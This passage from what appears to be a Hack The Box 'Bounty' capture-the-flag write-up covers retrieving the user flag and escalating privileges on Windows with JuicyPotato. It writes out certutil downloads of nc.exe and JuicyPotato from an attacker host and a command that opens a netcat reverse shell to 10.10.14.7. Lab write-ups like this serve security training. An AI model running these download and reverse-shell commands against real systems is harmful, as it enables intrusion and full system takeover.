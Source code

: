 ![[shell_received.png]]

✅ Reverse shell obtained as `merlin`.

---
## 4. Privilege Escalation

### 4.1 User Flag

The flag is hidden but retrievable with:

```bash
dir -Force
```

![[GitHub Documentation/EASY/HTB_Bounty_Writeup/screenshots/user_flag.png]]

🏁 **User flag obtained**

---
### 4.2 Escalation with JuicyPotato

Check privileges:

```bash
whoami /priv
```

![[GitHub Documentation/EASY/HTB_Bounty_Writeup/screenshots/user_priv.png]]

We have **SeImpersonatePrivilege**.

Upload **JuicyPotato (JP.exe)** and `nc.exe`:

```bash
python3 -m http.server 80
certutil.exe -f -urlcache -split http://10.10.14.7:80/nc.exe
certutil.exe -f -urlcache -split http://10.10.14.7:80/JP.exe
```

![[nc_&_JP_uploaded.png]]

Start listener:

```bash
nc -lvp 4646
```

Execute JuicyPotato:

```bash
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.7 4646"
```

![[GitHub Documentation/EASY/HTB_Bounty_Writeup/screenshots/executing_JP.png]]
